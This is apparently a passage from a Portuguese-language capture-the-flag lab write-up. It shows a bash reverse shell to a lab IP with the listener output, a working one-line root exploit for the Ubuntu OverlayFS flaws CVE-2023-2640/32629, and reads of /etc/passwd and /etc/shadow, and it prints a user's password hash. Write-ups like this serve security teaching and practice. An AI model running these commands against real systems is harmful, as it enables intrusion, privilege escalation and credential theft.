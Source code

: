 Com o Shell feito, é possível iniciar o Shell reverso para um melhor desempenho.

```www-data@webserver:…/html/uploads# /usr/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.159/4444 0>&1'```

``` shell
nc -lvpn 4444 
listening on [any] 4444 ...
10.10.11.241: inverse host lookup failed: Unknown host
connect to [10.10.14.159] from (UNKNOWN) [10.10.11.241] 6608
bash: cannot set terminal process group (952): Inappropriate ioctl for device
bash: no job control in this shell
www-data@webserver:/var/www/html/uploads$ 
```

Identifiquei a versão do servidor, sendo ela a Ubuntu 23.04.
```shell
www-data@webserver:/var/www/html/uploads$ cat /etc/os-release
cat /etc/os-release
PRETTY_NAME="Ubuntu 23.04"
NAME="Ubuntu"
VERSION_ID="23.04"
VERSION="23.04 (Lunar Lobster)"
VERSION_CODENAME=lunar
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=lunar
LOGO=ubuntu-logo
```
Com essas informação em mãos, encontrei as vulnerabilidades CVE-2023-2640 e CVE-2023-32629

É possível verificar mais informações sobre em:
https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629

Para conseguirmos acesso como root, executaremos o seguinte comando:
```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

Agora iremos encontrar os usuários ativos do sistema usando ```cat /etc/passwd```, e como resultados encontramos o usuário:

```
drwilliams:x:1000:1000:Lucy Williams:/home/drwilliams:/bin/bash
```

Utilizando o comando ```cat /etc/shadow```, é possível encontrar a hash de da senha do drwilliams.

```
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
```
